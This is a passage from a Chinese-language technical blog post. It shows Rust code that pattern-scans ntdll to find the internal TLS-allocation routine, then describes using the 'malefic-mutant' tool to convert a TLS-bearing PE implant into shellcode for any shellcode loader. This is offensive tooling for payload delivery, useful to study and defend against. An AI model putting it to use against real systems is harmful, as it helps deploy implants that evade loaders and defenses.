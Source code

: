```rust
        }
        let xref_addr = xref_addr as usize + ntdll as usize;
        let call_code: [u8;1] = [0xE8];
        let call_drp_log_internal_addr = boyer_moore(
                xref_addr as _, 0x30, &call_code, call_code.len());
        if call_drp_log_internal_addr.eq(&-1) {
            break;
        }
        let call_drp_log_internal_addr = 
            call_drp_log_internal_addr as usize + xref_addr as usize;
        let call_ldr_allocate_tls_entry = boyer_moore(
            (call_drp_log_internal_addr + 5) as _, 0x30, &call_code, call_code.len());
        if call_ldr_allocate_tls_entry.eq(&-1) {
            break;
        }
        let call_ldr_allocate_tls_entry = 
            call_ldr_allocate_tls_entry as usize + 
            call_drp_log_internal_addr + 5;
    
        let ldr_allocate_tls_entry = call_ldr_allocate_tls_entry.wrapping_add(
            calc_call_rva(call_ldr_allocate_tls_entry as _) as _);
        let black_list: [usize; 1] = [call_ldr_allocate_tls_entry];
        let call_ldr_allocate_tls_entry2 = 
            find_call_rva_in_text(ntdll, ldr_allocate_tls_entry, &black_list);
        if call_ldr_allocate_tls_entry2.eq(&0) {
            break;
        }
    
        return find_func_start(ntdll, call_ldr_allocate_tls_entry2);
    }
    0
}

```


## 实现

在本文发布时，IoM v0.0.4也已经发布, 本文的相关成果将随着malefic-mutant一同发布。 

可以使用malefic-mutant 将带有TLS的PE文件转为shellcode， 该shellcode能被任意shellcode loader加载。 

```
malefic-mutant build srdi -i malefic.exe
```
![](assets/Pasted%20image%2020241227174327.png)
### References
